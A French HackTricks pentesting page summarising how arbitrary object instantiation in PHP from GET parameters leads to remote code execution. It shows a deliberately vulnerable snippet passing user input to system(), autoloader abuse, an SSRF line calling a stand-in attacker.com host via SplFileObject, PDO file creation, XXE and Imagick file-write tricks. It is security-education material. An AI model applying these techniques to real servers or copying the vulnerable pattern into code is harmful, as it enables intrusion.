 # PHP - RCE abusant de la création d'objet : new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

Ceci est essentiellement un résumé de [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Introduction

La création de nouveaux objets arbitraires, tels que `new $_GET["a"]($_GET["a"])`, peut conduire à une Exécution de Code à Distance (RCE), comme détaillé dans un [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Ce document met en évidence diverses stratégies pour atteindre la RCE.

## RCE via Classes Personnalisées ou Autoloading

La syntaxe `new $a($b)` est utilisée pour instancier un objet où **`$a`** représente le nom de la classe et **`$b`** est le premier argument passé au constructeur. Ces variables peuvent provenir des entrées utilisateur comme GET/POST, où elles peuvent être des chaînes ou des tableaux, ou de JSON, où elles peuvent se présenter sous d'autres types.

Considérez l'extrait de code ci-dessous :
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Dans ce cas, définir `$a` sur `App` ou `App2` et `$b` sur une commande système (par exemple, `uname -a`) entraîne l'exécution de cette commande.

**Les fonctions d'autoloading** peuvent être exploitées si aucune de ces classes n'est directement accessible. Ces fonctions chargent automatiquement des classes à partir de fichiers lorsque cela est nécessaire et sont définies à l'aide de `spl_autoload_register` ou `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Le comportement de l'autoloading varie selon les versions de PHP, offrant différentes possibilités de RCE.

## RCE via des classes intégrées

En l'absence de classes personnalisées ou d'autoloaders, **les classes intégrées de PHP** peuvent suffire pour le RCE. Le nombre de ces classes varie entre 100 et 200, en fonction de la version de PHP et des extensions. Elles peuvent être listées en utilisant `get_declared_classes()`.

Les constructeurs d'intérêt peuvent être identifiés via l'API de réflexion, comme le montre l'exemple suivant et le lien [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**Le RCE via des méthodes spécifiques inclut :**

### **SSRF + Désérialisation Phar**

La classe `SplFileObject` permet le SSRF via son constructeur, permettant des connexions à n'importe quelle URL :
```php
new SplFileObject('http://attacker.com/');
```
SSRF peut conduire à des attaques de désérialisation dans les versions de PHP antérieures à 8.0 utilisant le protocole Phar.

### **Exploitation des PDOs**

Le constructeur de la classe PDO permet des connexions à des bases de données via des chaînes DSN, ce qui peut potentiellement permettre la création de fichiers ou d'autres interactions :
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Les versions de PHP jusqu'à 5.3.22 et 5.4.12 étaient susceptibles aux attaques XXE via les constructeurs `SoapClient` et `SimpleXMLElement`, en fonction de la version de libxml2.

## RCE via l'extension Imagick

Dans l'analyse des **dépendances d'un projet**, il a été découvert qu'**Imagick** pouvait être exploité pour **l'exécution de commandes** en instanciant de nouveaux objets. Cela présente une opportunité d'exploiter des vulnérabilités.

### Analyseur VID

La capacité de l'analyseur VID à écrire du contenu dans n'importe quel chemin spécifié dans le système de fichiers a été identifiée. Cela pourrait conduire à la mise en place d'un shell PHP dans un répertoire accessible via le web, réalisant ainsi une Exécution de Code à Distance (RCE).

#### Analyseur VID + Téléchargement de fichiers

Il est noté que PHP stocke temporairement les fichiers téléchargés dans `/tmp/phpXXXXXX`. L'analyseur VID dans Imagick, utilisant le protocole **msl**, peut gérer des caractères génériques dans les chemins de fichiers, facilitant le transfert du fichier temporaire vers un emplacement choisi. Cette méthode offre une approche supplémentaire pour réaliser une écriture de fichiers arbitraire dans le système de fichiers.

### Plantage PHP + Force brute

Une méthode décrite dans le [**document original**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) implique le téléchargement de fichiers qui déclenchent un plantage du serveur avant suppression. En forçant le nom du fichier temporaire, il devient possible pour Imagick d'exécuter du code PHP arbitraire. Cependant, cette technique s'est révélée efficace uniquement dans une version obsolète d'ImageMagick.

## Références

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
